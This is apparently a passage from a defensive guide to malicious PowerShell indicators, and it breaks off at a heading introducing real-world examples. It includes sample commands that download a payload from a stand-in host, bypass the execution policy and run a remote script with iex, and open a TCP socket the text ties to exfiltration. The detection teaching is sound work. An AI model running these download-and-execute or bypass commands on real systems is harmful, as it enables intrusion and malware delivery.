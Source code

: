 ```powershell
$url = "http://malicious-example.com/powershell_payload"
Invoke-WebRequest -Uri $url -OutFile "payload.exe"
```

In this example, the script downloads a potentially malicious payload from a URL. Analyzing the domain name and URL can help identify connections to known malicious servers.

### 3. **Unrecognized or Unsigned Scripts**

If a PowerShell script is not digitally signed or originates from an untrusted source, it could be a sign of malicious activity. Legitimate PowerShell scripts are often signed to verify their authenticity and integrity. Attackers may use unsigned scripts to avoid detection. For example:

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
iex (New-Object Net.WebClient).DownloadString('https://malicious-example.com/malware.ps1')
```

The above commands change the execution policy to bypass restrictions and then proceed to download and execute an external PowerShell script.

### 4. **Use of Suspicious Keywords**

Certain keywords and functions in PowerShell are commonly associated with malicious activities. Detecting these keywords within scripts can serve as an indicator of potentially harmful intent. For instance:

```powershell
$keyword = "Invoke-MaliciousActivity"
$scriptBlock = {
    # Malicious activities here
}
Invoke-Command -ScriptBlock $scriptBlock
```

In this example, the use of a suspicious keyword suggests the presence of malicious actions within the script block.

### 5. **Abnormal Network Traffic Patterns**

Analyzing network traffic generated by PowerShell scripts can reveal irregular communication patterns indicative of an attack. Excessive outbound connections, unusual ports, or communication with known malicious IP addresses can be indicators of compromise. For example:

```powershell
$targetIP = "192.168.1.100"
$port = 1337
$socket = New-Object System.Net.Sockets.TcpClient($targetIP, $port)
```

The above script establishes a TCP connection to an IP address and port, potentially for unauthorized data exfiltration.

### Real-World Examples

To provide a clearer understanding of PowerShell malicious indicators, let's examine a couple of real-world examples of attacks involving these indicators.
